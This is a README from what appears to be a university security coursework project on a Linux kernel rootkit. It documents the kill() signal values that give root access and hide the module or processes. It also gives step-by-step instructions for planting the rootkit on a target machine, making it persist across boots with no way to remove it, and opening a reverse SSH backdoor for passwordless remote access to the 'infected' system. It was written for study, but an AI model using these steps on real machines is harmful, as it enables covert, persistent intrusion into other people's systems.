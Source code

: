 # S3CW
Repository for Systems and Software Security unit coursework

## Interacting with the Rootkit

Some commands are accessible by using the system call `kill(pid_t pid, int, sig)`. Running this call with the following `sig` values will use our overridden method:

| `sig` value | Result                                  |
| ----------- | --------------------------------------- |
| 32          | Gain root access                        |
| 33          | Hide the rootkit module from the list   |
| 34          | Unhide the rootkit module from the list |
| 35          | Hide any programs with a PID of `pid`   |



## Building Instructions

### <u>Backdoor Configuration Instructions</u>
Some set up is needed on the computer you wish to use to access the comprimised machine remotely, and without the need for their password. It is highly recomended that you use a Linux based machine to access the comprimised computer, as our method is not verified on Windows or MacOS.

***Turn on SSH port forwarding***

For own computer connecting to rootkit back door:
1. Go to your router settings via a browser (address is typically 192.168.0.1, but your router should show somewhere how to get to the router configuration page).
2. Find your local ip address by using `ifconfig` then comparing the **inet** addresses until you find one that appears on your router settings site.
3. Using `ifconfig`, find your **subnet mask**, and **Default gateway** corresponding to the ip address you just found. Default gateway is typically your ip address with the last section being 1 (i.e. x.x.x.1, where 0 <= x <= 255)
3. We need to ensure our own pc has a static IP on the network to make sure port forwarding always works, and the ssh backdoor tunnel can always be made:

***Linux***
1. Go to **Settings**->**Network**
2. Click on the cog next to the network device that you use to connect to your router (Ethernet or Wifi)
3. Go to the **IPv4** tab, and in **IPv4 Method** select **Manual**. This will give us a static IP
4. Type in the **ip address**, **subnet mask** and **gateway** you found earlier. In the **DNS** field, we can use the Google Public DNS which has address `8.8.8.8`
5. Click **apply**

***Now we have a static IP set, we need to add port forwarding rule***
1. Goto your routers settings
2. Add a port forwarding rule (usually in security or firewall) for port 22 and your local static ip address


### <u>Configuration before installing rootkit</u>
1. You need to generate an ssh rsa keypair. To do this run `ssh-keygen` and hit the *enter* key every time you are prompted for input. If you already have `~/.ssh/id_rsa` and `~/.ssh/id_rsa.pub`, make sure that your user has read write access (can check this through `ls -l ~/.ssh`). If your user doesn't have access (i.e. it says `root` instead), then remove these current keys (may need to do `sudo rm...`) and then run `ssh-keygen` **without `sudo`**.
2. Make sure python is installed, and run `python backdoor_config.py` to set up file with your username, public ssh rsa key, and public ip address. This will be used by the rootkit to set up an ssh backdoor so you can connect to the infected machine. 
3. Move the `backdoor_config.txt` file into the `rootkit` folder.
4. ONLY MOVE THE **rootkit** FOLDER TO THE MACHINE YOU WANT TO INFECT


### <u>Booting Vagrant</u>
In order to showcase our rootkit, we will be using a Vagrant VM running Ubuntu 12.04. However, any Linux machine (VM or on *bare metal*) with an internet connection and running Ubunutu 12.04 will work. If you use a VM make sure in its network settings the adapter is of type **bridged adapter**. If asked which adapter to bridge too when booting vagrant, select the adapter you use to connect to the internet (can find this out using `ifconfig` and seing which one has your static ip address).
1. `vagrant up` in folder containing vagrant file
2. Move rootkit folder to 'guest' folder (in same directory as vagrant file is in)
3. `vagrant ssh` 

### <u>Clean Build Instructions Once in Vagrant</u>
1. ``` sudo apt-get install linux-headers-`uname -r` ```
2. `cd /vagrant` to go to shared 'guest' folder
3. `make all`
4. `sudo insmod rootkit.ko`
5. Whilst rootkit module is being installed, you will be asked to enter your **home computer's** password once on first instalation. This is to transfer a public ssh key and to set up the backdoor into the target system, so please enter it when prompted to do so.

### <u>Setting up loading on boot</u>
The rootkit will make itself boot by editing `/modules/etc`, but you need to follow these steps first:
1. `sudo mkdir /lib/modules/3.2.0-126-generic/kernel/drivers/rootkit`
2. `sudo cp /vagrant/* /lib/modules/3.2.0-126-generic/kernel/drivers/rootkit`
3. `cd /lib/modules/3.2.0-126-generic/kernel/drivers/rootkit`
4. `sudo make all`
5. `sudo depmod`
6. `sudo insmod rootkit.ko`
Warning: there is no way to remove the rootkit after this - if you want to recompile then either use signals to disable some functionality or reset your box.

### <u>Using backdoor</u>
1. Whilst you have access to the system you are infecting, run the command `whoami` and make a note of the result that is produced. We will need this to ssh into the system
2. We have set up a reverse ssh tunnel, meaning that whenever our router sees we are sending a request to `localhost` on port `7000` it will divert this to port `22` of our infected system
3. To access the infected system, simply type the command `ssh targetUser@localhost -p 7000` and you will have access to their system without the need for their password

### <u>Showing Rootkit features<\u>
1. Different commands of virus
2. How to change code to make it automated


small programs cant be seen in `top` as dont use enough cpu. can see hiding processes though using `ps`. Execute `sleep 120 &` for demo program as payload doesnt run long enough